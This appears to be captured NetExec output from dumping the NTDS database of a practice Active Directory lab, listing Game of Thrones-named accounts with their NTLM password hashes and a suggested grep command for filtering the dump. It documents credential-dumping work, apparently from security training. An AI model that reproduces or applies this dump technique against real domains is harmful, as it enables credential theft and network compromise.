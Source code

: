 ```
NTDSUTIL    10.2.10.11      445    WINTERFELL       CASTELBLACK$:1105:aad3b435b51404eeaad3b435b51404ee:fc58e6ddb73769bfd7a05fbb1ff11f89:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       arya.stark:1110:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       eddard.stark:1111:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       catelyn.stark:1112:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       robb.stark:1113:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       sansa.stark:1114:aad3b435b51404eeaad3b435b51404ee:b777555c2e2e3716e075cc255b26c14d:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       brandon.stark:1115:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       rickon.stark:1116:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       hodor:1117:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       jon.snow:1118:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       samwell.tarly:1119:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       jeor.mormont:1120:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       sql_svc:1121:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       [+] Dumped 37 NTDS hashes to /home/kali/.nxc/logs/WINTERFELL_10.2.10.11_2024-08-09_150449.ntds of which 31 were added to the database
NTDSUTIL    10.2.10.11      445    WINTERFELL       [*] To extract only enabled accounts from the output file, run the following command:
NTDSUTIL    10.2.10.11      445    WINTERFELL       [*] grep -iv disabled /home/kali/.nxc/logs/WINTERFELL_10.2.10.11_2024-08-09_150449.ntds | cut -d ':' -f1
```
